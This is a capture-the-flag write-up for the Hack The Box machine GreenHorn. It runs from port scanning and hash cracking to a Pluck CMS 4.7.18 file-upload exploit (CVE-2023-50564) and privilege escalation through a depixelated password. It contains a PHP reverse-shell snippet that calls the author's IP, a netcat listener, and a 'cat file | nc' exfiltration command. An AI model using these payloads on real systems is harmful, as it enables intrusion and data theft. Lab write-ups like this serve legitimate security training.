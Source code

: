 # HTB GreenHorn

Add the DNS into HOSTS

```bash
echo -e '10.129.191.235\t\tgreenhorn.htb'
```

## Admin console page

![admin page](image.png)

## nmap scan for ports 

(base) nathan@ubuntu-desktop:~/Documents/git/ctf_journey$ sudo nmap -sS 10.10.11.25
[sudo] password for nathan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-02 03:34 CET
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up (0.022s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

We can see that we have a ppp server running on 3000.

Opening up the web page we can see that there is self hosting git service with the git project.

## User Password

![alt text](image-1.png)

User hash password.

`d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163`

![alt text](image-2.png)

We can see that its a sha512 hash. We can try and bruteforce the password.

Simply by trying to use a cracker online I've found the password.
![alt text](image-3.png)

## Admin login
logged in with the password.
![alt text](image-4.png)

Now we can see the pluck version that they are using. 4.7.18.

## CVE CVE-2023-50564

First search found a CVE on Pluck being able to do remote Code Excecution. This is good since this will help us invoke a reverse shell.

![alt text](image-5.png)

Found more info here [github](https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC).
CVE-2023-50564 is a vulnerability that allows unauthorized file uploads in Pluck CMS version 4.7.18. This exploit leverages a flaw in the module installation function to upload a ZIP file containing a PHP shell, thereby enabling remote command execution.

I took the php script in the git and simply added my own IP addr. I had for the VPN.

Snippet : 

```php
        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.14.132', 8888);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>

```

Created a ZIP and uploaded to the server VIA import modules.

```bash

(base) nathan@ubuntu-desktop:~/Downloads/GreenHorn/rev/CVE-2023-50564_Pluck-v4.7.18_PoC$ nc -lnvp 8888
Listening on 0.0.0.0 8888
Connection received on 10.10.11.25 38794
SOCKET: Shell has connected! PID: 7198
```


## User flag



```bash
whoami 
www-data
ls
README.md
SECURITY.md
admin.php
data
docs
files
images
index.php
install.php
login.php
requirements.php
robots.txt
tree
ls /home/
git
junior
ls /home/junior/
Using OpenVAS.pdf
user.txt
ls -la /home/junior/user.txt
-rw-r----- 1 root junior 33 Nov  2 00:45 /home/junior/user.txt
```

Connect as junior

```bash
su junior
Password: iloveyou1
whoami
junior
```

User flag : 
```bash
cat /home/junior/user.txt
667ba77652cff26d8a402206bf756e8d
```

## Root flag

Saw a pdf file earlier in the logs so lets self transfer it.

Our listening server :
```bash
(base) nathan@ubuntu-desktop:~$ nc -lnvp 8889 > Using_OpenVAS.pdf
Listening on 0.0.0.0 8889
Connection received on 10.10.11.25 50624
```

The file transfer with cat :
```bash
cd /home/junior
ls
user.txt
Using OpenVAS.pdf
cat Using\ OpenVAS.pdf | nc 10.10.14.132 8889
```
We see a pixelated password.
![alt text](image-6.png)

Extract image from pdf : 

```bash
pdfimages Using_OpenVAS.pdf out_pdf.ppm
```

![alt text](image-7.png)

Using [Depix repo](https://github.com/spipm/Depix/tree/main) : 

```bash
python3 depix.py     -p out_pdf.ppm-000.ppm     -s images/searchimages/debruinseq_notepad_Windows10_spaced.png
```

![alt text](output.png)

`sidefromsidetheothersidesidefromsidetheotherside`

su root :

```bash
su root
Password: sidefromsidetheothersidesidefromsidetheotherside
whoami
root
```

Root flag : 

```bash
cd /root
ls
cleanup.sh
restart.sh
root.txt
cat root.txt
eb889c6c6dba0888fdc40b9e327bbbca
```